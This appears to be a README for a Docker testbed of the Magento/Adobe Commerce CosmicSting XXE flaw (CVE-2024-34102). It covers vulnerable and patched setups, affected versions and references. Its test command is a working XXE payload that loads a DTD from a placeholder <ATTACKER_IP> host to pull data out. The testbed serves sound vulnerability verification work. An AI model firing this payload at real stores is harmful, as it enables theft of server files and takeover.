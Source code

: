 # Magento / Adobe Commerce CosmicSting XXE (CVE-2024-34102)

## Description
Adobe Commerce and Magento v2.4.7 and earlier are vulnerable to a critical unauthenticated XXE (XML External Entity) vulnerability that can lead to arbitrary code execution. The vulnerability can be exploited by sending an unauthenticated HTTP request with a crafted XML file that references external entities; when the request payload is deserialized, the attacker can extract sensitive files from the system and gain administrative access to the software. Remote Code Execution (RCE) can accomplished by combining this issue with another vulnerability, such as the [PHP iconv RCE](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1).

## Launch Testbed

### Vulnerable version
Launch vulnerable version: Magento v2.4.7-p0.
```sh
docker compose -f docker-compose-vuln.yml up
```

### Safe version
Launch safe version: Magento v2.4.7-p2.
```sh
docker compose -f docker-compose-safe.yml up
```

## Vulnerability Test
You can use the following command to check whether the instance is vulnerable or not (credits to vicarius.io):
```sh
curl -k -X POST \
  http://127.0.0.1:8081/rest/all/V1/guest-carts/test-assetnote/estimate-shipping-methods \
  -H "Content-Type: application/json" \
  -d '{
    "address": {
      "totalsReader": {
        "collectorList": {
          "totalCollector": {
            "sourceData": {
              "data": "<?xml version=\"1.0\" ?><!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY % sp SYSTEM \"http://<ATTACKER_IP>/dtd.xml\"> %sp; %param1; ]><r>&exfil;</r>",
              "options": 16
            }
          }
        }
      }
    }
  }'
```

A vulnerable instance will reply with the following message:
```json
{"message":"Internal Error. Details are available in Magento log file. Report ID: webapi-66d8a8d363765"}
```
while a safe instance will output the following:
```json
{"message":"Invalid data type"}
```
Moreover, you can replace `<ATTACKER_IP>` with the URL of a request canary service (such as Burp Collaborator) to verify if you receive a callback. A safe instance will not fetch the URL, while a vulnerable one will.

## Affected Versions
- 2.4.7 and earlier
- 2.4.6-p5 and earlier
- 2.4.5-p7 and earlier
- 2.4.4-p8 and earlier
- 2.4.3-ext-7 and earlier*
- 2.4.2-ext-7 and earlier*

*These versions are only applicable to customers participating in the Extended Support Program

## References
- [CosmicSting: critical unauthenticated XXE vulnerability in Adobe Commerce and Magento (CVE-2024-34102)](https://www.vicarius.io/vsociety/posts/cosmicsting-critical-unauthenticated-xxe-vulnerability-in-adobe-commerce-and-magento-cve-2024-34102)
- [NIST: CVE-2024-34102](https://nvd.nist.gov/vuln/detail/CVE-2024-34102)
- [Adobe Security Bulletin APSB24-40](https://helpx.adobe.com/security/products/magento/apsb24-40.html)
